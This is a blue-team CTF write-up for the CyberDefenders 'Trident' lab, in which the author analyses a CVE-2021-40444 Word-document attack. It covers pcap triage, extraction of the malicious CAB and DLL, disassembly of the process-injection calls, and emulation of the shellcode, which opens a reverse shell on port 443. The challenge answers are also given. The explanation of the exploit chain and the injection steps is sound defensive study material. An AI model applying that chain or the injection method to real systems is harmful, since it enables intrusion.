---


[https://cyberdefenders.org/blueteam-ctf-challenges/trident/](https://cyberdefenders.org/blueteam-ctf-challenges/trident/)


## Basic triage {#3597b0eb61a48034b499da910222b268}


| 23.205.48.23 [e584.g.akamaiedge.net] [omextemplates.content.office.net.edgekey.net] [omextemplates.content.office.net] (Other)                                                     | 192.168.112.139 [WIN-D2TSDEME6NN] (Windows) |   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------- | - |
| 192.168.112.128 - Linux                                                                                                                                                            |                                             |   |
| 40.77.226.250 [v10-win.vortex.data.trafficmanager.net] [v10.vortex-win.data.microsoft.com] (Other)                                                                                 |                                             |   |
| 192.168.112.2                                                                                                                                                                      |                                             |   |
| 51.104.136.2 [settingsfd-geo.trafficmanager.net] [settings-win.data.microsoft.com] [settings-win.data.microsoft] (Other)                                                           |                                             |   |
| 2.23.28.86 [e16253.d.akamaiedge.net] [templateservice.office.com.edgekey.net] [templateservice.office.com] [templateservice.cdn.office.c] [templateservice.cdn.office.com] (Other) |                                             |   |


Can’t deduce any useful insight here.


### Q1 The attacker conducted a port scan on the victim machine. How many open ports did the attacker find? {#3467b0eb61a4803d9144eb87bdc9c39c}


To check if hacker send a tcp syn and the host answer with SYN, ACK (the port is opened)


`ip.dst==192.168.112.128 && tcp.flags.syn==1 && tcp.flags.ack==1`
**Statistics** -&gt; **Endpoints** -&gt; Chuyển sang tab **TCP** -&gt;_Limit to display filter"_ 


using network miner: Open TCP Ports: 587 (Smtp) 135 139 (NetBiosSessionService) 143 (Imap) 25 (Smtp) 445 (NetBiosSessionService) 110 (Pop3)





### Q2 What is the victim's email address? {#3467b0eb61a480d8bb1bc14b66069ce7}


use smtp as filter and find the packet with “From:”





joshua@cyberdefenders.org


### Q3 The malicious document file contains a URL to a malicious HTML file. Provide the URL for this file. {#3467b0eb61a480bcabbee94cf022e04c}


i find the filename: web server.docx in network miner





extract it and use this command: `grep -r -F ".html"` to find in the folder





http://192.168.112.128/word.html


### Q4 What is the Microsoft Office version installed on the victim machine? {#3467b0eb61a480249a27da8f6e9f47f1}


http.request.uri contains "/word.html”


15.0.4517


### Q5 The malicious HTML contains a js code that points to a malicious CAB file. Provide the URL to the CAB file? {#3467b0eb61a4800d955dca9ca832996b}


 grep -F “.cab” word.html





http://192.168.112.128/word.cab


### Q6 The exploit takes advantage of a CAB vulnerability. Provide the vulnerability name? {#3467b0eb61a480f79a3dcfad7e70dbdc}


Extract the [word.cab](http://word.cab/) and calculate the hash





When lookup in virustotal, i notice that it related CVE-2021-40444





find a github page with the vulnerability name:





`zipslip`


### Q7 Analyzing the dll file what is the API used to write the shellcode in the process memory? {#3467b0eb61a48099b1e5e1c6b822cfac}


Extract the [word.cab](http://word.cab/) using 7z x word.cab result msword.inf file - which is in fact a dll file


```powershell
80$ file msword.inf 
msword.inf: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows

```


Then i use objdump to extract 


```powershell
objdump -p msword.inf | grep -A 50 "Import Table"
```


`-p:`   dump out all the details of the PE Header: Section Table, Export Table, and the Import Table.





> `WriteProcessMemory` is windows API which alloww attacker to inject shellcode into a process. 


:::tip

objdump is a powerful command-line utility used to display information about compiled binary files (object files, libraries, executables)
- it can read the header of a file (PE header in windows or ELF in Linux) and translate into human-readable text

Meaning of the import table: all the import functions (which have specific capability) are stored in system files like `kernel32.dll`, `user32.dll`, or `ws2_32.dll` . Every programs has to use these funtions, even attacker’s one.

- If you see imports from `ws2_32.dll` (like `socket`, `connect`, `send`), the file is capable of network communication (potential beaconing or downloading).

- If you see `Advapi32.dll` importing `RegCreateKey` or `RegSetValueEx`, the file modifies the Windows Registry (likely for persistence).

- If you see `kernel32.dll` importing `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread`, the file is highly likely attempting **Process Injection** (similar to the Defense Evasion tactics we discussed earlier).

:::


### Q8 Extracting the shellcode from the dll file. What is the name of the library loaded by the shellcode? {#3467b0eb61a480849eb0d168ab2d6feb}


Navigate to the imports lists, which is explained in Q7 `WriteProcessMemory` to check where it write to the RAM. 


	`WriteProcessMemory(hProcess, lpBaseAddress, lpBuffer, nSize, ...)`.


	


	`VirtualAllocEx` allocates memory inside a _remote_ process. The `hProcess` parameter being pushed to the stack tells Windows, "Allocate memory inside the `rundll32.exe` process I just created.


	```text
	.text:100010BF push 40h  ; (flProtect = PAGE_EXECUTE_READWRITE)
	.text:100010C1 push 1000h ; flAllocationType)
	.text:100010C6 push 1000h ;  (dwSize)
	.text:100010CB push 0     ; (lpAddress)
	.text:100010D0 push edx   ;  (hProcess)
	.text:100010D1 call ds:VirtualAllocEx ; call the function
	```


	`0x40` (`PAGE_EXECUTE_READWRITE`): is suscpicious


	Next the malware call WriteProcessMemory: 


	```powershell
	push 1000h               ; nSize (Size of the payload)
	push offset unk_10003000 ; lpBuffer
	```


	`0x10003000` is where the shellcode start


	


	
Switch to hex view: `FC E8 8F 00 00 00` is the signature of shellcode created by Metasploit or Cobalt strike framework


	


	We can also see that there is a user-agent named: mozilla,…. that means perhaps the malware will connect to external ip when executed


Employ dd to extract the shellcode


```c++
dd if=msword.inf of=shellcode.bin bs=1 skip=3072 count=4096
```

- **`bs=1`** blocksize - cut every byte, not by chunk
- **`skip=3072`**: shellcode starts at C00 = 3072
- **`count=4096`**: `push` **`1000h`**  in `VirtualAllocEx` function → 4096 (decimal) blocks

:::tip

push in `WriteProcessMemory` has to be smaller than in `VirtualAllocEx.` Of course because you can’t build a house that is bigger than your land

:::


Then we use scdbg to analyze the shellcode





> wininet


### Q9 Which port was configured to receive the reverse shell? {#3467b0eb61a480fda4cdf525e7c14393}


I`nternetConnectA(server: 192.168.112.128, port: 443, )`


## Exploitation Chain for CVE-2021-40444 {#3597b0eb61a4807b989bcdf372233ecd}


Phase 1: Delivery & Trigger

- Step 1: Victim Interaction. The victim receives and opens a malicious Word document (e.g., `web server.docx`).
- Step 2: External OLE Relationship. Embedded within the document's structure (specifically inside `document.xml.rels`) is a malicious External OLE Relationship. This link points to a remote HTML file hosted on the attacker's infrastructure (e.g., `http://192.168.112.128/word.html`).

Phase 2: Payload Download

- Step 3: IE Engine Invocation. By default, Microsoft Word attempts to render a preview of the OLE object. To accomplish this, it silently spawns the Internet Explorer (IE) rendering engine (`ieframe.dll`) in the background.
- Step 4: JScript Execution. The background browser loads and executes the remote `word.html`, which contains malicious JScript. This script performs two key actions: it downloads a crafted `.cab` file (`word.cab`), and it dynamically generates an `iframe` pointing to an `.inf` file using the special `.cpl:` (Control Panel) URI scheme.

Phase 3: Exploitation (ZipSlip / Path Traversal)

- Step 5: CAB Processing. The `.cab` file is processed by the system. Normally, Windows would safely extract the contents of this archive into a restricted sandbox directory (`%TEMP%\Low`).
- Step 6: Triggering the Vulnerability. This is the core of CVE-2021-40444. The crafted `.cab` file exploits a Directory Traversal (ZipSlip) vulnerability. This allows the extraction process to "escape" the restricted `Low` folder and drop the payload—an `.inf` file that is actually a malicious DLL (e.g., `msword.inf`)—directly into the parent `%TEMP%` directory, bypassing the sandbox restrictions.

Phase 4: Execution & Process Injection

- Step 7: Control Panel Side-loading. The JScript from Step 4 invokes the newly dropped `.inf` file via the `.cpl:` directive. This tricks the Windows OS into using the legitimate `rundll32.exe` process to load and execute the malicious `.inf` (DLL) file as if it were a Control Panel item.
- Step 8: Process Injection. Once the malicious DLL is loaded into `rundll32.exe`, it initiates the injection sequence you analyzed in IDA Pro:
	- It calls `VirtualAllocEx` to allocate a block of memory with Read/Write/Execute (RWX - `0x40`) permissions inside the `rundll32.exe` process.
	- It calls `WriteProcessMemory` to copy the embedded shellcode (from offset `0x10003000`) into this newly allocated memory space.
	- It calls `SetThreadContext` to hijack the execution flow (changing the EIP register) and `ResumeThread` to force the process to run the injected shellcode.
- Result: The shellcode executes successfully and calls `InternetConnectA` to reach out to the attacker's IP (`192.168.112.128`) over port `443`, establishing a Reverse Shell and granting the attacker full control over the victim's machine.

## Some usefull knowledge {#3467b0eb61a4805ab65be4cda65b8f14}


### **1. Using** **`dd`** **for Shellcode Extraction: Virtual Address (VA) vs. Raw Offset** {#3597b0eb61a4804caa04cc3b8e31b6a5}


When extracting shellcode from a PE file using `dd`, we cannot use the memory address shown in IDA Pro (e.g., `0x10003000`). This is a Virtual Address (VA), which is where Windows maps the data in RAM when the program runs.
To extract it directly from the file on disk, we need the Raw File Offset. By inspecting the PE Section Headers, we can see that the `.data` section (which contains our shellcode) maps to the physical offset `0xC00` in the hex editor. Since `0xC00` in Hex equals `3072` in Decimal, we instruct `dd` to skip the first 3072 bytes of the file to hit the exact starting point of our payload:


```c++
dd if=msword.inf of=shellcode.bin bs=1 skip=3072 count=4096
```


### **2.** **`scdbg`**  {#3597b0eb61a4806d9430f1562c524c48}


Analyzing raw shellcode statically is extremely difficult. `scdbg` is an emulation tool built specifically for this. It creates a fake Windows environment (a virtual CPU and memory space) and hooks common Windows APIs.


 When we feed `shellcode.bin` into `scdbg`, it runs the malicious code safely. Whenever the shellcode tries to call a Windows function (like `LoadLibraryA` or `InternetConnectA` to establish a reverse shell), `scdbg` intercepts it and prints the parameters to the screen. This allows analysts to quickly discover C2 IPs, ports, and downloaded file names without needing a full sandbox setup.


### **3. The CVE-2021-40444 Exploit Mechanism** {#3597b0eb61a48062a448d6165adb1d48}

- The attack chain bypasses multiple layers of Windows security.
- First, the Malicious Document uses an external OLE relationship to download a crafted `.cab` file. The vulnerability (ZipSlip / Path Traversal) allows the attacker to extract an `.inf` file (which is actually a malicious DLL) outside of the normal Temp directory.
- Finally, the attacker uses an iframe with the `.cpl:` (Control Panel) URI scheme. This forces Windows `rundll32.exe` to execute the `.inf` file as a Control Panel item, triggering the malware execution entirely fileless-ly from the user's perspective.

### **4.** **`grep`** **command flags:** {#3597b0eb61a480deab84f33209fe141a}

- `r` (recursive): Read all files under each directory.
- `F` (fixed strings): Interpret the pattern as a fixed, literal string (e.g., `.html`), rather than a regular expression. This prevents special characters like dots (`.`) from acting as regex wildcards.
